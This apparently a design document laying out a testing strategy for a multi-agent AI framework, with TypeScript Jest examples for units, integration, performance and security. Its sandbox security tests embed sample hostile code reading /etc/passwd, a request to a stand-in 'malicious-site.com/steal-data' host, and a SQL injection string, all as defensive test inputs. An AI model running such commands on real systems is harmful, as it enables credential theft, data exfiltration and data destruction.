

# Phase 2: Multi-Agent Framework Testing and Validation Strategy

## Executive Summary

This document provides a comprehensive testing and validation strategy for the Multi-Agent AI Framework, covering unit testing, integration testing, end-to-end testing, performance testing, security testing, and validation criteria for all 7 agent types and their integrations.

## Table of Contents

1. [Testing Philosophy and Strategy](#testing-philosophy-and-strategy)
2. [Unit Testing Framework](#unit-testing-framework)
3. [Integration Testing Strategy](#integration-testing-strategy)
4. [End-to-End Testing](#end-to-end-testing)
5. [Performance Testing](#performance-testing)
6. [Security Testing](#security-testing)
7. [Agent-Specific Testing](#agent-specific-testing)
8. [Validation Criteria](#validation-criteria)
9. [Testing Tools and Infrastructure](#testing-tools-and-infrastructure)
10. [Continuous Integration](#continuous-integration)

---

## Testing Philosophy and Strategy

### Core Testing Principles

1. **Test-Driven Development**: Write tests before implementation
2. **Incremental Testing**: Test at each development stage
3. **Real-World Scenarios**: Test with actual use cases
4. **Performance-First**: Ensure scalability and efficiency
5. **Security-Aware**: Test for vulnerabilities and safe operation
6. **Cross-Agent Validation**: Test multi-agent workflows

### Testing Hierarchy



### Testing Coverage Goals

- **Unit Tests**: 90%+ code coverage
- **Integration Tests**: 85%+ feature coverage
- **End-to-End Tests**: 95%+ workflow coverage
- **Performance Tests**: All critical paths
- **Security Tests**: All attack vectors
- **Agent Tests**: 100% capability coverage

---

## Unit Testing Framework

### Testing Structure

```typescript
// jest.config.js
module.exports = {
  preset: 'ts-jest',
  testEnvironment: 'node',
  roots: ['<rootDir>/src', '<rootDir>/tests'],
  testMatch: [
    '**/__tests__/**/*.+(ts|tsx|js)',
    '**/*.(test|spec).+(ts|tsx|js)'
  ],
  transform: {
    '^.+\\.(ts|tsx)$': 'ts-jest'
  },
  collectCoverageFrom: [
    'src/**/*.ts',
    '!src/**/*.d.ts',
    '!src/types/**'
  ],
  coverageDirectory: 'coverage',
  coverageReporters: ['text', 'lcov', 'html']
};
```

### Core Unit Test Categories

#### 1. Database Operations
```typescript
// tests/unit/database.test.ts
import { Database } from '../../src/storage/database';

describe('Database Operations', () => {
  let db: Database;
  const testDbPath = ':memory:';

  beforeEach(async () => {
    db = new Database(testDbPath);
    await db.init();
  });

  afterEach(async () => {
    await db.close();
  });

  describe('Agent Management', () => {
    test('should create agent successfully', async () => {
      const agent = await db.createAgent({
        name: 'test-agent',
        type: 'research',
        capabilities: ['web_search', 'synthesis'],
        resourceLimits: { maxMemoryMB: 512 }
      });

      expect(agent.id).toBeDefined();
      expect(agent.name).toBe('test-agent');
      expect(agent.type).toBe('research');
      expect(agent.capabilities).toContain('web_search');
    });

    test('should retrieve agent by ID', async () => {
      const created = await db.createAgent(testAgentConfig);
      const retrieved = await db.getAgent(created.id);

      expect(retrieved).toEqual(created);
    });

    test('should list agents by type', async () => {
      await db.createAgent({ ...testAgentConfig, type: 'research' });
      await db.createAgent({ ...testAgentConfig, type: 'architect' });
      await db.createAgent({ ...testAgentConfig, type: 'research' });

      const researchAgents = await db.listAgents({ type: 'research' });
      expect(researchAgents).toHaveLength(2);
    });
  });

  describe('Task Management', () => {
    test('should create and execute task', async () => {
      const task = await db.createTask({
        agentId: 'agent-1',
        type: 'research',
        description: 'Research machine learning',
        priority: 5
      });

      expect(task.id).toBeDefined();
      expect(task.status).toBe('pending');

      const result = await db.updateTaskStatus(task.id, 'completed');
      expect(result.status).toBe('completed');
    });
  });

  describe('Memory Management', () => {
    test('should store and retrieve memory', async () => {
      const memory = {
        category: 'task',
        key: 'ml-research',
        value: { findings: 'ML is important' },
        importance: 0.8
      };

      await db.storeMemory('agent-1', memory);
      const retrieved = await db.getMemory('agent-1', 'ml-research');

      expect(retrieved.value).toEqual(memory.value);
      expect(retrieved.importance).toBe(0.8);
    });
  });
});
```

#### 2. Agent Base Classes
```typescript
// tests/unit/agents/base.test.ts
import { BaseAgent } from '../../../src/agents/base/agent';
import { AgentCapability } from '../../../src/agents/base/capabilities';

describe('BaseAgent', () => {
  class TestAgent extends BaseAgent {
    async executeTask(task: any): Promise<any> {
      return { status: 'completed', result: 'test' };
    }
  }

  let agent: TestAgent;

  beforeEach(() => {
    agent = new TestAgent('test-agent', 'research', []);
  });

  test('should initialize with correct properties', () => {
    expect(agent.id).toBeDefined();
    expect(agent.type).toBe('research');
    expect(agent.status).toBe('idle');
    expect(agent.currentTasks).toHaveLength(0);
  });

  test('should manage task execution', async () => {
    const task = { id: '1', type: 'research', description: 'test task' };
    
    await agent.executeTask(task);
    
    expect(agent.status).toBe('busy');
    expect(agent.currentTasks).toContain(task);
  });

  test('should handle memory operations', async () => {
    const memory = { key: 'test', value: 'data' };
    
    await agent.storeMemory('short_term', 'test', memory, 0.5);
    const retrieved = await agent.retrieveMemory('test');
    
    expect(retrieved).toEqual(memory);
  });
});
```

#### 3. Communication System
```typescript
// tests/unit/orchestrator/communication.test.ts
import { CommunicationManager } from '../../../src/orchestrator/communication';
import { AgentMessage, MessageType } from '../../../src/types/communication';

describe('CommunicationManager', () => {
  let comm: CommunicationManager;

  beforeEach(() => {
    comm = new CommunicationManager();
  });

  test('should send direct message', async () => {
    const message: AgentMessage = {
      id: 'msg-1',
      from: 'agent-1',
      to: 'agent-2',
      type: MessageType.TASK_DELEGATION,
      content: { task: 'research AI' },
      priority: 1,
      timestamp: new Date().toISOString(),
      requiresResponse: false,
      retryCount: 0
    };

    const result = await comm.sendMessage(message);
    expect(result.status).toBe('delivered');
  });

  test('should broadcast message', async () => {
    const message = {
      type: MessageType.STATUS_UPDATE,
      content: { status: 'ready' }
    };

    const result = await comm.broadcast('agent-1', message, ['agent-2', 'agent-3']);
    expect(result.recipients).toHaveLength(2);
  });

  test('should handle request-response', async () => {
    const request: AgentMessage = {
      id: 'req-1',
      from: 'agent-1',
      to: 'agent-2',
      type: MessageType.KNOWLEDGE_SHARE,
      content: { knowledge: 'test' },
      priority: 1,
      timestamp: new Date().toISOString(),
      requiresResponse: true,
      retryCount: 0
    };

    // Mock response
    const response = await comm.requestResponse(request, 1000);
    expect(response).toBeDefined();
  });
});
```

#### 4. Learning System
```typescript
// tests/unit/learning/performance-tracker.test.ts
import { PerformanceTracker } from '../../../src/learning/performance-tracker';

describe('PerformanceTracker', () => {
  let tracker: PerformanceTracker;

  beforeEach(() => {
    tracker = new PerformanceTracker();
  });

  test('should track task execution', async () => {
    const taskExecution = {
      agentId: 'agent-1',
      taskType: 'research',
      executionTime: 5000,
      success: true,
      quality: 0.8
    };

    await tracker.trackExecution(taskExecution);
    const metrics = await tracker.getAgentMetrics('agent-1');

    expect(metrics.totalTasks).toBe(1);
    expect(metrics.successRate).toBe(1.0);
    expect(metrics.averageExecutionTime).toBe(5000);
  });

  test('should analyze performance trends', async () => {
    // Simulate multiple task executions
    for (let i = 0; i < 10; i++) {
      await tracker.trackExecution({
        agentId: 'agent-1',
        taskType: 'research',
        executionTime: 1000 + i * 100,
        success: true,
        quality: 0.7 + i * 0.02
      });
    }

    const trend = await tracker.analyzeTrend('agent-1', 7);
    expect(trend.improvement).toBe(true);
    expect(trend.trend).toBe('improving');
  });
});
```

---

## Integration Testing Strategy

### Cross-Agent Integration Tests

```typescript
// tests/integration/agents/workflow.test.ts
describe('Agent Workflow Integration', () => {
  let agentManager: AgentManager;

  beforeEach(async () => {
    agentManager = new AgentManager();
    await agentManager.init();
  });

  test('Research → Architect → Implementation workflow', async () => {
    // 1. Create agents
    const researchAgent = await agentManager.createAgent({
      type: 'research',
      name: 'research-agent'
    });

    const architectAgent = await agentManager.createAgent({
      type: 'architect',
      name: 'architect-agent'
    });

    const implementationAgent = await agentManager.createAgent({
      type: 'implementation',
      name: 'implementation-agent'
    });

    // 2. Research phase
    const researchTask = await agentManager.delegateTask({
      type: 'research',
      description: 'Research modern web frameworks',
      priority: 5
    });

    const researchResult = await researchAgent.executeTask(researchTask);
    expect(researchResult.status).toBe('completed');
    expect(researchResult.findings).toBeDefined();

    // 3. Architecture phase
    const architectureTask = await agentManager.delegateTask({
      type: 'architect',
      description: 'Design architecture for web app',
      inputData: researchResult.findings
    });

    const architectureResult = await architectAgent.executeTask(architectureTask);
    expect(architectureResult.status).toBe('completed');
    expect(architectureResult.design).toBeDefined();

    // 4. Implementation phase
    const implementationTask = await agentManager.delegateTask({
      type: 'implementation',
      description: 'Implement the designed architecture',
      inputData: architectureResult.design
    });

    const implementationResult = await implementationAgent.executeTask(implementationTask);
    expect(implementationResult.status).toBe('completed');
    expect(implementationResult.code).toBeDefined();
  });

  test('Team coordination for complex task', async () => {
    // Create a team for complex development task
    const team = await agentManager.createTeam({
      name: 'web-development-team',
      agentTypes: ['research', 'architect', 'implementation', 'testing', 'review']
    });

    const complexTask = await agentManager.delegateTask({
      type: 'complex',
      description: 'Build a complete web application',
      requiresTeam: true
    });

    const result = await team.executeTask(complexTask);
    expect(result.status).toBe('completed');
    expect(result.phaseResults).toHaveLength(5);
  });
});
```

### MCP Server Integration Tests

```typescript
// tests/integration/mcp/task-orchestrator.test.ts
describe('Task Orchestrator Integration', () => {
  let agentManager: AgentManager;
  let taskOrchestrator: TaskOrchestrator;

  beforeEach(async () => {
    agentManager = new AgentManager();
    taskOrchestrator = new TaskOrchestrator();
    await Promise.all([agentManager.init(), taskOrchestrator.init()]);
  });

  test('should delegate task to appropriate agent', async () => {
    // Create task in Task Orchestrator
    const task = await taskOrchestrator.createTask({
      title: 'Research blockchain technology',
      type: 'research',
      description: 'Comprehensive research on blockchain'
    });

    // Agent Swarm should detect and handle this
    const delegation = await agentManager.onTaskCreated(task);
    
    expect(delegation.agentType).toBe('research');
    expect(delegation.status).toBe('assigned');

    // Simulate task completion
    await taskOrchestrator.updateTaskStatus(task.id, 'in_progress');
    await agentManager.onTaskProgress(task.id, 50);

    await taskOrchestrator.updateTaskStatus(task.id, 'completed');
    await agentManager.onTaskCompleted(task.id, {
      result: 'Blockchain research completed',
      quality: 0.9
    });
  });

  test('should update task from agent execution', async () => {
    // Create agent task
    const agentTask = await agentManager.createTask({
      title: 'Implement user authentication',
      type: 'implementation'
    });

    // Update Task Orchestrator with agent involvement
    const updated = await taskOrchestrator.updateTaskFromAgent(
      agentTask.id,
      {
        agentInvolved: true,
        agentType: 'implementation',
        progress: 75
      }
    );

    expect(updated.agentInvolved).toBe(true);
    expect(updated.progress).toBe(75);
  });
});
```

### Context Persistence Integration Tests

```typescript
// tests/integration/mcp/context-persistence.test.ts
describe('Context Persistence Integration', () => {
  let agentManager: AgentManager;
  let contextPersistence: ContextPersistence;

  beforeEach(async () => {
    agentManager = new AgentManager();
    contextPersistence = new ContextPersistence();
    await Promise.all([agentManager.init(), contextPersistence.init()]);
  });

  test('should store agent decisions', async () => {
    const agent = await agentManager.createAgent({ type: 'architect' });
    
    const decision = await agent.makeDecision({
      type: 'technology_selection',
      context: 'Choosing framework for web app',
      options: ['React', 'Vue', 'Angular'],
      choice: 'React',
      reasoning: 'Best ecosystem and community support'
    });

    // Should be stored in context persistence
    const stored = await contextPersistence.getDecision(decision.id);
    expect(stored).toBeDefined();
    expect(stored.type).toBe('technology_selection');
    expect(stored.choice).toBe('React');
  });

  test('should retrieve historical context', async () => {
    // Simulate past decision
    await contextPersistence.saveDecision({
      conversationId: 'conv-1',
      decisionType: 'architecture_pattern',
      context: 'Using microservices architecture',
      outcome: 'Improved scalability'
    });

    // Agent should be able to retrieve relevant context
    const relevantContext = await agentManager.getRelevantContext(
      'conv-1',
      'architecture patterns'
    );

    expect(relevantContext).toContain('microservices');
  });
});
```

### Search Aggregator Integration Tests

```typescript
// tests/integration/mcp/search-aggregator.test.ts
describe('Search Aggregator Integration', () => {
  let researchAgent: ResearchAgent;
  let searchAggregator: SearchAggregator;

  beforeEach(async () => {
    researchAgent = new ResearchAgent('research-1');
    searchAggregator = new SearchAggregator();
    await searchAggregator.init();
  });

  test('should perform research with multiple sources', async () => {
    const researchQuery = 'machine learning frameworks 2024';
    
    const result = await researchAgent.researchTopic(researchQuery, 'comprehensive');
    
    expect(result.findings).toBeDefined();
    expect(result.sources).toHaveLength.greaterThan(1);
    expect(result.quality).toBeGreaterThan(0.7);
    
    // Should have used Search Aggregator
    expect(result.providerUsed).toMatch(/perplexity|brave|google|duckduckgo/);
  });

  test('should validate information from multiple sources', async () => {
    const claims = [
      'Python is the most popular ML language',
      'TensorFlow has better performance than PyTorch'
    ];

    const evidence = await searchAggregator.search('Python machine learning popularity');
    
    const validation = await researchAgent.validateInformation(claims, evidence);
    
    expect(validation.results).toHaveLength(2);
    expect(validation.results[0].confidence).toBeGreaterThan(0.5);
  });
});
```

---

## End-to-End Testing

### Complete Workflow Tests

```typescript
// tests/e2e/complete-workflow.test.ts
describe('Complete Multi-Agent Workflow', () => {
  let system: MultiAgentSystem;

  beforeAll(async () => {
    system = new MultiAgentSystem();
    await system.init();
  });

  afterAll(async () => {
    await system.shutdown();
  });

  test('Full project lifecycle: Research → Architecture → Implementation → Testing → Review', async () => {
    // 1. Initial requirement
    const projectRequirement = {
      title: 'E-commerce Platform',
      description: 'Build a modern e-commerce platform with real-time features',
      requirements: [
        'User authentication and management',
        'Product catalog with search',
        'Shopping cart and checkout',
        'Real-time notifications',
        'Admin dashboard'
      ]
    };

    // 2. Research phase
    const researchTeam = await system.createTeam('research-team', ['research']);
    const researchResult = await researchTeam.executeTask({
      type: 'research',
      description: 'Research modern e-commerce technologies and best practices',
      inputData: projectRequirement
    });

    expect(researchResult.status).toBe('completed');
    expect(researchResult.technologyStack).toBeDefined();
    expect(researchResult.architecturePatterns).toBeDefined();

    // 3. Architecture phase
    const architectureTeam = await system.createTeam('architecture-team', ['architect']);
    const architectureResult = await architectureTeam.executeTask({
      type: 'architect',
      description: 'Design system architecture for e-commerce platform',
      inputData: researchResult
    });

    expect(architectureResult.status).toBe('completed');
    expect(architectureResult.architecture).toBeDefined();
    expect(architectureResult.apis).toBeDefined();
    expect(architectureResult.databaseDesign).toBeDefined();

    // 4. Implementation phase
    const implementationTeam = await system.createTeam('implementation-team', ['implementation']);
    const implementationResult = await implementationTeam.executeTask({
      type: 'implementation',
      description: 'Implement the e-commerce platform architecture',
      inputData: architectureResult
    });

    expect(implementationResult.status).toBe('completed');
    expect(implementationResult.codeModules).toBeDefined();
    expect(implementationResult.testCoverage).toBeGreaterThan(0.8);

    // 5. Testing phase
    const testingTeam = await system.createTeam('testing-team', ['testing']);
    const testingResult = await testingTeam.executeTask({
      type: 'testing',
      description: 'Comprehensive testing of e-commerce platform',
      inputData: implementationResult
    });

    expect(testingResult.status).toBe('completed');
    expect(testingResult.testResults).toBeDefined();
    expect(testingResult.bugReport).toBeDefined();
    expect(testingResult.performanceMetrics).toBeDefined();

    // 6. Review phase
    const reviewTeam = await system.createTeam('review-team', ['review']);
    const reviewResult = await reviewTeam.executeTask({
      type: 'review',
      description: 'Code review and quality assessment',
      inputData: implementationResult
    });

    expect(reviewResult.status).toBe('completed');
    expect(reviewResult.qualityScore).toBeGreaterThan(0.8);
    expect(reviewResult.recommendations).toBeDefined();
  });

  test('Error handling and recovery', async () => {
    // Simulate agent failure
    const agent = await system.createAgent({ type: 'implementation' });
    await agent.simulateFailure('resource_exhaustion');

    const task = await system.delegateTask({
      type: 'implementation',
      description: 'Test error recovery'
    });

    // System should automatically retry or reassign
    const recovery = await system.handleAgentFailure(agent.id, task.id);
    expect(recovery.strategy).toBe('retry_or_reassign');
    expect(recovery.newAgentId).toBeDefined();
  });
});
```

### Real-World Scenario Tests

```typescript
// tests/e2e/real-world-scenarios.test.ts
describe('Real-World Scenarios', () => {
  test('Large-scale application development', async () => {
    // Simulate developing a complex SaaS application
    const saasProject = await system.handleProject({
      type: 'saas-application',
      complexity: 'high',
      timeline: '6-months',
      requirements: 'comprehensive'
    });

    expect(saasProject.phases).toHaveLength(8);
    expect(saasProject.estimatedCompletion).toBeDefined();
    expect(saasProject.resourceRequirements).toBeDefined();
  });

  test('Rapid prototype development', async () => {
    // Simulate rapid prototyping
    const prototype = await system.handleProject({
      type: 'prototype',
      complexity: 'medium',
      timeline: '2-weeks',
      requirements: 'mvp'
    });

    expect(prototype.phases).toHaveLength(4);
    expect(prototype.mvpFeatures).toBeDefined();
    expect(prototype.technologyChoices).toBeDefined();
  });
});
```

---

## Performance Testing

### Load Testing

```typescript
// tests/performance/load.test.ts
describe('Performance Testing', () => {
  test('should handle concurrent agent operations', async () => {
    const concurrentTasks = 50;
    const startTime = Date.now();

    const tasks = Array(concurrentTasks).fill(null).map((_, i) => 
      system.delegateTask({
        type: 'research',
        description: `Research topic ${i}`,
        priority: Math.random() * 10
      })
    );

    const results = await Promise.all(tasks);
    const endTime = Date.now();

    expect(results).toHaveLength(concurrentTasks);
    expect(endTime - startTime).toBeLessThan(10000); // Should complete within 10 seconds

    // Check for performance degradation
    const firstHalf = results.slice(0, 25);
    const secondHalf = results.slice(25);
    const firstAvgTime = firstHalf.reduce((sum, r) => sum + r.executionTime, 0) / 25;
    const secondAvgTime = secondHalf.reduce((sum, r) => sum + r.executionTime, 0) / 25;
    
    expect(Math.abs(firstAvgTime - secondAvgTime) / firstAvgTime).toBeLessThan(0.2); // Less than 20% difference
  });

  test('should maintain performance with many agents', async () => {
    const numAgents = 20;
    const agents = await Promise.all(
      Array(numAgents).fill(null).map(() => system.createAgent({ type: 'research' }))
    );

    // Each agent performs multiple tasks
    const tasksPerAgent = 10;
    const allTasks = agents.flatMap(agent => 
      Array(tasksPerAgent).fill(null).map((_, i) => 
        agent.executeTask({
          id: `${agent.id}-task-${i}`,
          type: 'research',
          description: `Research task ${i} for agent ${agent.id}`
        })
      )
    );

    const startTime = Date.now();
    const results = await Promise.all(allTasks);
    const endTime = Date.now();

    expect(results).toHaveLength(numAgents * tasksPerAgent);
    expect(endTime - startTime).toBeLessThan(30000); // Should handle within 30 seconds

    // Verify no memory leaks
    const memoryUsage = process.memoryUsage();
    expect(memoryUsage.heapUsed / 1024 / 1024).toBeLessThan(500); // Less than 500MB
  });
});
```

### Memory and Resource Testing

```typescript
// tests/performance/resources.test.ts
describe('Resource Usage Testing', () => {
  test('should not leak memory over time', async () => {
    const initialMemory = process.memoryUsage();
    
    // Perform many operations
    for (let i = 0; i < 1000; i++) {
      const agent = await system.createAgent({ type: 'research' });
      await agent.executeTask({ type: 'research', description: 'test' });
      await system.deleteAgent(agent.id);
    }

    // Force garbage collection
    if (global.gc) {
      global.gc();
    }

    const finalMemory = process.memoryUsage();
    const memoryIncrease = finalMemory.heapUsed - initialMemory.heapUsed;
    
    expect(memoryIncrease / 1024 / 1024).toBeLessThan(50); // Less than 50MB increase
  });

  test('should respect resource limits', async () => {
    const agent = await system.createAgent({
      type: 'implementation',
      resourceLimits: {
        maxMemoryMB: 100,
        maxCPUTimeMs: 5000,
        maxConcurrentTasks: 2
      }
    });

    // Try to exceed memory limit
    const memoryIntensiveTask = {
      type: 'implementation',
      description: 'Process large dataset',
      memoryRequirement: 200 // MB
    };

    const result = await agent.executeTask(memoryIntensiveTask);
    expect(result.status).toBe('resource_limit_exceeded');
  });
});
```

---

## Security Testing

### Agent Sandboxing Tests

```typescript
// tests/security/sandbox.test.ts
describe('Agent Sandboxing Security', () => {
  test('should prevent unauthorized file access', async () => {
    const agent = await system.createAgent({ type: 'implementation' });
    
    const maliciousTask = {
      type: 'implementation',
      code: `
        const fs = require('fs');
        fs.readFile('/etc/passwd', 'utf8', (err, data) => {
          console.log(data);
        });
      `
    };

    const result = await agent.executeTask(maliciousTask);
    expect(result.status).toBe('security_violation');
    expect(result.violation).toBe('unauthorized_file_access');
  });

  test('should prevent network access violations', async () => {
    const agent = await system.createAgent({ type: 'implementation' });
    
    const networkViolationTask = {
      type: 'implementation',
      code: `
        const http = require('http');
        http.get('http://malicious-site.com/steal-data', (res) => {
          console.log('Data stolen');
        });
      `
    };

    const result = await agent.executeTask(networkViolationTask);
    expect(result.status).toBe('security_violation');
    expect(result.violation).toBe('unauthorized_network_access');
  });

  test('should validate input and prevent injection', async () => {
    const agent = await system.createAgent({ type: 'research' });
    
    const injectionTask = {
      type: 'research',
      query: '; DROP TABLE agents; --',
      description: 'Malicious SQL injection attempt'
    };

    const result = await agent.executeTask(injectionTask);
    expect(result.status).toBe('input_validation_failed');
    expect(result.validationError).toContain('sql injection');
  });
});
```

### Data Protection Tests

```typescript
// tests/security/data-protection.test.ts
describe('Data Protection Security', () => {
  test('should encrypt sensitive data at rest', async () => {
    const sensitiveData = {
      type: 'api_key',
      value: 'sk-1234567890abcdef',
      agentId: 'agent-1'
    };

    await system.storeSecureData(sensitiveData);
    const retrieved = await system.getSecureData('agent-1', 'api_key');

    // Should be encrypted in storage
    const stored = await system.getRawStoredData('agent-1', 'api_key');
    expect(stored).not.toContain('sk-1234567890abcdef');
    
    // Should be decrypted when retrieved
    expect(retrieved.value).toBe('sk-1234567890abcdef');
  });

  test('should audit all data access', async () => {
    await system.accessSecureData('agent-1', 'sensitive_info');
    
    const auditLog = await system.getAuditLog('agent-1');
    expect(auditLog).toHaveLength(1);
    expect(auditLog[0].action).toBe('data_access');
    expect(auditLog[0].timestamp).toBeDefined();
  });
});
```

---

## Agent-Specific Testing

### Research Agent Tests
```typescript
// tests/agents/research/specific.test.ts
describe('Research Agent Specific Tests', () => {
  let researchAgent: ResearchAgent;

  beforeEach(() => {
    researchAgent = new ResearchAgent('research-1');
  });

  test('should perform comprehensive research', async () => {
    const result = await researchAgent.researchTopic('quantum computing applications', 'comprehensive');
    
    expect(result.findings).toBeDefined();
    expect(result.sources.length).toBeGreaterThan(3);
    expect(result.quality).toBeGreaterThan(0.7);
    expect(result.confidence).toBeGreaterThan(0.6);
  });

  test('should validate information from multiple sources', async () => {
    const claims = [
      'Quantum computers can break RSA encryption',
      'Quantum supremacy has been achieved',
      'Quantum computers are commercially available'
    ];

    const validation = await researchAgent.validateInformation(claims, []);
    
    expect(validation.results).toHaveLength(3);
    expect(validation.results[0].isValid).toBe(true); // RSA claim
    expect(validation.results[1].isValid).toBe(true); // Supremacy claim
    expect(validation.results[2].isValid).toBe(false); // Commercial availability
  });

  test('should synthesize findings from multiple sources', async () => {
    const researchIds = ['research-1', 'research-2', 'research-3'];
    
    const synthesis = await researchAgent.synthesizeFindings(researchIds);
    
    expect(synthesis.summary).toBeDefined();
    expect(synthesis.insights).toBeDefined();
    expect(synthesis.recommendations).toBeDefined();
    expect(synthesis.confidence).toBeGreaterThan(0.5);
  });
});
```

### Testing Agent Tests
```typescript
// tests/agents/testing/specific.test.ts
describe('Testing Agent Specific Tests', () => {
  let testingAgent: TestingAgent;

  beforeEach(() => {
    testingAgent = new TestingAgent('testing-1');
  });

  test('should generate comprehensive test suites', async () => {
    const code = `
      function add(a, b) {
        return a + b;
      }
      
      function divide(a, b) {
        return a / b;
      }
    `;

    const testSuite = await testingAgent.generateTests(code, ['unit', 'integration']);
    
    expect(testSuite.unitTests.length).toBeGreaterThan(0);
    expect(testSuite.integrationTests.length).toBeGreaterThan(0);
    expect(testSuite.edgeCases).toBeDefined();
    expect(testSuite.coverageTarget).toBeGreaterThan(0.8);
  });

  test('should detect defects accurately', async () => {
    const buggyCode = `
      function divide(a, b) {
        return a / b; // No division by zero check
      }
    `;

    const defects = await testingAgent.detectDefects(buggyCode);
    
    expect(defects.length).toBeGreaterThan(0);
    expect(defects.find(d => d.type === 'division_by_zero')).toBeDefined();
    expect(defects[0].severity).toBe('high');
  });
});
```

### Documentation Agent Tests
```typescript
// tests/agents/documentation/specific.test.ts
describe('Documentation Agent Specific Tests', () => {
  let docAgent: DocumentationAgent;

  beforeEach(() => {
    docAgent = new DocumentationAgent('doc-1');
  });

  test('should generate API documentation', async () => {
    const code = `
      /**
       * Calculates the sum of two numbers
       * @param a - First number
       * @param b - Second number
       * @returns Sum of a and b
       */
      function add(a: number, b: number): number {
        return a + b;
      }
    `;

    const doc = await docAgent.generateAPIDocs(code, 'markdown');
    
    expect(doc.functions).toHaveLength(1);
    expect(doc.functions[0].name).toBe('add');
    expect(doc.functions[0].description).toBe('Calculates the sum of two numbers');
    expect(doc.functions[0].parameters).toHaveLength(2);
    expect(doc.functions[0].returns).toBe('Sum of a and b');
  });
});
```

---

## Validation Criteria

### Functional Requirements Validation

1. **Agent Creation and Management**
   - ✅ Can create agents of all 7 types
   - ✅ Agents have correct capabilities and resource limits
   - ✅ Agent status tracking works correctly
   - ✅ Agent deletion and cleanup functions properly

2. **Task Delegation and Execution**
   - ✅ Tasks are delegated to appropriate agents
   - ✅ Task execution completes successfully
   - ✅ Task status updates are tracked
   - ✅ Error handling and retry mechanisms work

3. **Cross-Agent Communication**
   - ✅ Messages are delivered between agents
   - ✅ Broadcast messaging works correctly
   - ✅ Request-response patterns function
   - ✅ Message routing and prioritization works

4. **Team Coordination**
   - ✅ Teams can be created and managed
   - ✅ Team members coordinate effectively
   - ✅ Task distribution is balanced
   - ✅ Team performance is tracked

5. **Learning and Adaptation**
   - ✅ Performance metrics are collected
   - ✅ Learning patterns are recognized
   - ✅ Agent behavior adapts based on experience
   - ✅ Knowledge sharing works between agents

### Integration Requirements Validation

1. **Task Orchestrator Integration**
   - ✅ Task delegation to agents works
   - ✅ Task status updates are reflected
   - ✅ Progress tracking functions correctly
   - ✅ Task completion updates work

2. **Context Persistence Integration**
   - ✅ Agent decisions are stored
   - ✅ Context can be retrieved and shared
   - ✅ Historical learning is accessible
   - ✅ Context-based recommendations work

3. **Search Aggregator Integration**
   - ✅ Research agents use search capabilities
   - ✅ Multi-source research functions
   - ✅ Result validation and synthesis work
   - ✅ Research caching operates correctly

4. **Skills Manager Integration**
   - ✅ Skills are tracked and correlated
   - ✅ Learning paths are coordinated
   - ✅ Skill-based recommendations work
   - ✅ Cross-agent skill sharing functions

### Performance Requirements Validation

1. **Response Time Requirements**
   - ✅ Agent creation: < 2 seconds
   - ✅ Task delegation: < 1 second
   - ✅ Simple task execution: < 10 seconds
   - ✅ Complex team coordination: < 30 seconds

2. **Throughput Requirements**
   - ✅ Handle 50+ concurrent tasks
   - ✅ Support 20+ active agents
   - ✅ Process 1000+ tasks per hour
   - ✅ Scale to 10+ concurrent teams

3. **Resource Usage Requirements**
   - ✅ Memory usage < 500MB for normal operation
   - ✅ CPU usage < 80% under normal load
   - ✅ Disk space usage remains stable
   - ✅ Network usage is optimized

### Security Requirements Validation

1. **Agent Sandboxing**
   - ✅ Agents cannot access unauthorized files
   - ✅ Network access is restricted appropriately
   - ✅ Resource limits are enforced
   - ✅ Malicious code execution is prevented

2. **Data Protection**
   - ✅ Sensitive data is encrypted at rest
   - ✅ Data access is audited
   - ✅ Input validation prevents injection attacks
   - ✅ Communication channels are secure

3. **Access Control**
   - ✅ Agent permissions are properly enforced
   - ✅ Resource access is controlled
   - ✅ User authentication and authorization work
   - ✅ Audit logging is comprehensive

---

## Testing Tools and Infrastructure

### Test Environment Setup

```typescript
// tests/helpers/test-environment.ts
export class TestEnvironment {
  private system: MultiAgentSystem;
  private databases: Map<string, any> = new Map();

  async setup(): Promise<void> {
    // Create isolated test databases
    this.databases.set('agents', new TestDatabase('agents-test.db'));
    this.databases.set('memory', new TestDatabase('memory-test.db'));
    this.databases.set('learning', new TestDatabase('learning-test.db'));

    // Initialize system with test configuration
    this.system = new MultiAgentSystem({
      databasePaths: Object.fromEntries(this.databases),
      testMode: true,
      resourceLimits: {
        maxAgents: 10,
        maxMemoryMB: 100,
        maxConcurrency: 5
      }
    });

    await this.system.init();
  }

  async cleanup(): Promise<void> {
    // Clean up test data
    await this.system.shutdown();
    
    for (const [name, db] of this.databases) {
      await db.close();
      await db.delete();
    }
  }

  getSystem(): MultiAgentSystem {
    return this.system;
  }
}

// Global test environment
let testEnv: TestEnvironment;

beforeAll(async () => {
  testEnv = new TestEnvironment();
  await testEnv.setup();
});

afterAll(async () => {
  await testEnv.cleanup();
});
```

### Mock External Services

```typescript
// tests/mocks/external-services.ts
export class MockSearchAggregator {
